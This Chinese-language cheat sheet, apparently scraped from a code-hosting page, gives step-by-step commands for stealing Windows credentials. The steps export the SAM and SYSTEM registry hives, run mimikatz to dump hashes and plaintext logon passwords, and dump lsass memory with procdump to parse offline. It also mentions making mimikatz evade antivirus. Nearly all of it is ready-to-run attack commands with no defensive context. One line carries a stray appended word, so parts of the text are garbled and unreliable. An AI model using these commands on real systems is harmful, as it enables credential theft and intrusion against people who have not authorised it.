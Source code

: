 
获取明文密码

Windows Server 2003、Windows Server 2008、Windows 7 都能直接获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp

回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
